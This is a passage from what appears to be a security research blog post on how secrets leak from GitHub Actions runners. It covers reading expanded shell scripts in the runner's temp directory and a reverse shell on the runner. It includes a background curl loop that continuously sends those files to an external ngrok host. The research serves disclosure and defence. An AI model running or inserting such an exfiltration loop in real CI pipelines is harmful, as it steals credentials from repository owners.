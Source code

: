 Our goal is to leak those secrets.

## Reading Files and Environment Variables

Before executing a job, _Runner.Worker_ must translate the job details into executable code. The resulting code for shell actions is stored in `/home/runner/work/_temp`. _Runner.Worker_ also expands any references and secrets the shell action contains. Accordingly, the first method to reveal secrets is by reading the corresponding `.sh` file in `/home/runner/work`:

![A screenshot showing the result of running "cat /home/runner/work/_temp/*.sh": a curl command that includes a specified "X-API-Key: SECRET VALUE" header.](/images/github-actions-leaking-secrets/T4eN6E9.png)

(Note that I am running a reverse shell from the runner machine. You can alternatively read the values from the build logs or exfiltrate them.)

This will also print shell actions that have executed in a previous step. For future shell actions, we create an asynchronous process that continuously exfiltrates `.sh` files from `/home/runner/work/_temp`:[^4]

[^4]: I am exfiltrating values to an HTTP ngrok instance. ngrok is an ingress tool useful for exposing local ports.

```sh
while true; do curl -s 'https://4ddc-91-197-46-143.ngrok.io' -H "Content-Type: text/plain" -d "$(cat /home/runner/work/_temp/*)" -o /dev/null; done &
```

![Screenshot of the exfiltrated shell scripts in ngrok. Contains API_KEY secret.](/images/github-actions-leaking-secrets/41RqzNm2.png)

Another type of step is the JavaScript action. It contains a `action.yml` manifest that specifies input arguments and a JavaScript file to execute with Node.js. A workflow step then references the action with the `uses` key and passes arguments using `with`:

```yaml
- name: An Example of a JavaScript Action
  uses: user/repo@v3
  with:
    example_argument_1: ${{ '{{' }} secrets.API_KEY }}
    example_argument_2: "Hello world"
```


[^1]: Jobs can be configured to run synchronously, but they will still run on separate machines.
[^2]: The API key is hex-encoded using xxd because GitHub Actions automatically censors secret values from build logs. The censorship is nevertheless a good feature for users. In 2019, [others and I showed](https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/) that builds logs on Travis CI, another CI/CD solution, were exposing sensitive information due to lax censorship.
[^3]: The decryption may differ per the runner's configuration and operating system. [Lines 354-372 of `src/Runner.Listener/MessageListener.cs`](https://github.com/actions/runner/blob/caec043085990710070108f375cd0aeab45e1017/src/Runner.Listener/MessageListener.cs#L354-L372) include the decryption code.
[^5]: You can read Alex's analysis of GitHub Actions command injection at [https://cycode.com/github-actions-vulnerabilities/](https://cycode.com/github-actions-vulnerabilities/)
[^6]: Shell actions can also have `if` conditions. But that doesn't matter for our purposes: the expanded `.sh` file will still contain the secrets, even when the process never runs.
[^7]: The usage of the GitHub token to download JavaScript actions can be found on [line 798 of `src/Runner.Worker/ActionManager.cs`](https://github.com/actions/runner/blob/caec043085990710070108f375cd0aeab45e1017/src/Runner.Worker/ActionManager.cs#L798).
[^8]: The token expires shortly after the job finishes, so a hacker must automate their exploit against the repository.